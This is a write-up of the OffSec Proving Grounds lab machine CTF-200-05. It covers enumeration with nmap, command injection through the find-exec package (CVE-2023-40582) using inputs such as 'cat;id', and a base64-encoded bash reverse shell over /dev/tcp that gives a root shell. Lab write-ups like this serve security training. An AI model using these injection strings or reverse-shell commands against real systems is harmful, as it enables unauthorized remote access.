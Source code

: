 ```yaml
---
title: CTF-200-05 (OffSec. Proving Grounds)
image: /assets/writeups/trace8.jpg
description: Write-up of CTF-200-05 Machine
date: 2023-12-28 09:00:00 -3000
categories: [proving grounds]
tags: [find-exec, CVE, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Nmap scan report for 192.168.249.36 (192.168.249.36)
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Node.js Express framework
|_http-title: Command Guess Game
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 3000:

Visiting Port 3000 we get greeted by this page


![port3000.png](../../assets/writeups/2023-12-27-CTF-200-05/port3000.png)

nothing too crazy here it just checks if the command exist,whats important here is to look at the bottom part of the webpage where it says `find-exec v1.0.2`

![find-execvuln.png](../../assets/writeups/2023-12-27-CTF-200-05/find-execvuln.png)

that package is vulnerable to `CVE-2023-40582` [Command Injection in find-exec | CVE-2023-40582 | Snyk](https://security.snyk.io/vuln/SNYK-JS-FINDEXEC-5876637)

> POC

```js
const findexec = require('find-exec');
findexec("; touch hacked")
```

so what it means is we can do something like `cat;id` and after the cat is executed it executes the id command too. Using that we get the reverse shell 

## Root User:

Initially I ran just simple `cat; nc <IP> 7777` which did got a callback but wasn't responsive so it must be `-e` switch of nc causing the problem so we can just encode the payload and send it again

```bash
echo "/bin/bash -i >& /dev/tcp/<IP>/7777 0>&1" | base64
L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=
```

and running that,

```bash
cat;echo "L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=" | base64 -d | bash
```

we get a perfect root shell

![perfectrootshell.png](../../assets/writeups/2023-12-27-CTF-200-05/perfectrootshell.png)




